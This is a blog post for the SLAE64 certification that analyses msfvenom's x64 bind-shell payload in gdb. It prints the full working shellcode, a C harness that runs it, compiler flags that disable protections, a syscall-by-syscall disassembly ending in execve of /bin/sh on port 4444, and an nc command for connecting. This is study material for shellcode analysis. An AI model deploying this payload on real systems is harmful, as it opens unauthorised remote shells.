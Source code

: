 ```yaml
---
layout: post
title: Msfvenom generated bind_tcp shellcode analysis
#description: >
#  This blog post covers the 5th task of the SLAE certificate exam where the goal is to analyse a msfvenom generated payload
#hide_description: true
#image: /assets/img/blog/example-content-ii.jpg
---
```


This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert Certification](https://www.pentesteracademy.com/course?id=7). The task for 5.2/7 assignment is to analyse at least 3 shellcode examples created using Msfpayload for linux/x86_64. Since msfpayload is outdated, I used msfvenom instead. The analysis of the shellcodes is carried out using the gdb debugger and 2/3 shellcode analysed in this article is the shell_bind_tcp payload.

<b>Student ID</b>: SLAE64 - 1594

### MSFvenom generated linux/x64/shell_bind_tcp payload

As a follow up to analysing [exec shellcode](/blog/2019-05-01-blog-SLAE51), the second payload I chose is the linux/x64/shell_bind_tcp payload. By description, this payload is used to spawn a command shell and listen for a connection. In order to generate the payload I used the following command:
```
msfvenom -p linux/x64/shell_bind_tcp -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 86 bytes
Final size of c file: 386 bytes
unsigned char buf[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```

#### Shellcode test program

To analyse the generated payload I am placed it into the C program from where we will be executing the shellcode:
```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

int main()
{
  printf("Shellcode Length:  %d\n", (int)strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

and finally compiled the C program as follows:
```
gcc -m64 -fno-stack-protector -z execstack testshellcode.c -o testshellcode -no-pie
```

### Analysis

Examining the generated shellcode in gdb, shows us that 6 syscalls will be executed, so let's divide our analysis into 6 separate steps.

![](/assets/img/SLAE/msfvenom_syscalls.png)

__1__ - `socket()` syscall

We can see that the 1st syscall is the socket syscall, as `rax` is initialized to 0x29 (41). From `socket` syscall man page, we can easily validate that this syscall takes 3 arguments and as a result will return a file descriptor.

* `rdi` --> 0x2 for AF_INET<br>
* `rsi` --> 0x1 for type SOCKSTREAM<br>
* `rdx` --> 0x0 for protocol. `rdx` is zeroed out with the cdq instruction<br>

```
Dump of assembler code from 0x601060 to 0x6010b6:
=> 0x0000000000601060 <code+0>:	push   0x29
   0x0000000000601062 <code+2>:	pop    rax
   0x0000000000601063 <code+3>:	cdq
   0x0000000000601064 <code+4>:	push   0x2
   0x0000000000601066 <code+6>:	pop    rdi
   0x0000000000601067 <code+7>:	push   0x1
   0x0000000000601069 <code+9>:	pop    rsi
   0x000000000060106a <code+10>:	syscall
```

__2__ - `bind()` syscall

The usecase for the `bind()` syscall is to bind to the socket created in step 1. The way to identify the `bind()` syscall here are the 2 lines just before the `syscall` instruction. Value 0x31 is pushed to the stack and then right after, popped to rax, which by convention is where we need to have the syscall number.

Looking at the layout of a bind ` int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);` syscall we can get the most important bits of information for us (ip address and the port) if we understand the `sockaddr *addr` structure. By looking at line `mov DWORD PTR [rsp],0x5c110002` we can deduct the following:

* 02 --> AF_INET for ipv4 address family
* 00 --> INADDR_ANY, so it will try to connect to 0.0.0.0
* 5c11 --> is in the network byte order (big endian). Once we change that to little endian 115c and convert it to decimal, we get that the port this shellcode is trying to connect to is 4444

```
   0x000000000060106c <code+12>:	xchg   rdi,rax
   0x000000000060106e <code+14>:	push   rdx
   0x000000000060106f <code+15>:	mov    DWORD PTR [rsp],0x5c110002
   0x0000000000601076 <code+22>:	mov    rsi,rsp
   0x0000000000601079 <code+25>:	push   0x10
   0x000000000060107b <code+27>:	pop    rdx
   0x000000000060107c <code+28>:	push   0x31
   0x000000000060107e <code+30>:	pop    rax
   0x000000000060107f <code+31>:	syscall
```

__3__ - `listen()` syscall

`listen()` syscall corresponds to 0x32 (50) and by convention is takes 2 arguments `int listen(int sockfd, int backlog);` Since `rdi` is already prepared for us from previous syscalls, all we will see here is the preparation of the syscall value for `rax`.

```
   0x0000000000601081 <code+33>:	push   0x32
   0x0000000000601083 <code+35>:	pop    rax
   0x0000000000601084 <code+36>:	syscall
```

__4__ - `accept()` syscall

Once we are listening on the port, the next thing what should happen is some other party initiating a connection. When that happens, shellcode should be able to accept that incoming connection. This is where `accept()` syscall comes into play.

```
   0x0000000000601086 <code+38>:	xor    rsi,rsi
   0x0000000000601089 <code+41>:	push   0x2b
   0x000000000060108b <code+43>:	pop    rax
   0x000000000060108c <code+44>:	syscall
```

__5__ - `dup2()`

`dup2()` goes by the syscall number 0x21 (33) and it takes 2 arguments `int dup2(int oldfd, int newfd);`, the old file descriptor in `rdi` and the new file descriptor in `rsi`. As we need to apply it for stdin, stdout and stderr, which correspond to the numbers 0,1 and 2, it makes sense to do it in a loop and this is exactly what msfvenom has generated for us. each round `rsi` is decremented by 1, and then checked in the end of the loop whether or not it has reached to 0.

```
   0x000000000060108e <code+46>:	xchg   rdi,rax
   0x0000000000601090 <code+48>:	push   0x3
   0x0000000000601092 <code+50>:	pop    rsi
   0x0000000000601093 <code+51>:	dec    rsi
   0x0000000000601096 <code+54>:	push   0x21
   0x0000000000601098 <code+56>:	pop    rax
   0x0000000000601099 <code+57>:	syscall
   0x000000000060109b <code+59>:	jne    0x601093 <code+51>
```

__6__ - `execve()` the finale

This shellcode ends up executing the `execve` syscall, which all of us are now way too familiar with from my previous posts, but for the sake of it let's go through it again :). So `execve()` goes by the 0x3b (59) syscall number and it takes 3 arguments.

* instruction `cdq` allows us conveniently to sign-extend the value in `rax` and make sure that `rdx` is zeroed out. This is what would hold the environment variables if we wanted to pass any.
* With instructions at offsets +65, +75 and +76 we place the address with the program name which we want to execute, `/bin/sh`, to `rdi`
* with instructions at offsets +79, +80 and +81 we first place the address from `rdi` to the stack again. So we end up with an address at `rsp` pointing to the address where we have stored string `/bin/sh`. Image addr --> addr --> `/bin/sh`.

```
   0x000000000060109d <code+61>:	push   0x3b
   0x000000000060109f <code+63>:	pop    rax
   0x00000000006010a0 <code+64>:	cdq
   0x00000000006010a1 <code+65>:	movabs rbx,0x68732f6e69622f
   0x00000000006010ab <code+75>:	push   rbx
   0x00000000006010ac <code+76>:	mov    rdi,rsp
   0x00000000006010af <code+79>:	push   rdx
   0x00000000006010b0 <code+80>:	push   rdi
   0x00000000006010b1 <code+81>:	mov    rsi,rsp
   0x00000000006010b4 <code+84>:	syscall
```

* * *

To test out the msfvenom generated payload simply run the compiled version of the payload and open another tab to make the connection `nc 0.0.0.0 4444`.

#### Related posts:

* [64-bit bindshell with a passphrase protection](https://silviavali.github.io/blog/2019-01-15-blog-SLAE1/)
* [64-bit reverse shell with passphrase protection](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)
* [Egghunter (64-bit Linux) using access() syscall](https://silviavali.github.io/blog/2019-02-25-blog-SLAE3/)
* [Writing a 64-bit custom encoder (reversed byte order of 4 byte chunks)](https://silviavali.github.io/blog/2019-02-25-blog-SLAE4/)
* [Msfvenom generated Exec shellcode analysis - exec shellcode](https://silviavali.github.io/blog/2019-05-01-blog-SLAE51/)
* [Msfvenom generated bind_tcp shellcode analysis](https://silviavali.github.io/blog/2019-05-01-blog-SLAE52/)
* [Msfvenom generated shell_reverse_tcp payload](https://silviavali.github.io/blog/2019-05-01-blog-SLAE53/)
* [Polymorphic shellcodes for samples taken from Shell-Storm](https://silviavali.github.io/blog/2019-05-01-blog-SLAE6/)
* [Custom encrypter - One-time pad (OTP)](https://silviavali.github.io/blog/2019-05-01-blog-SLAE7/)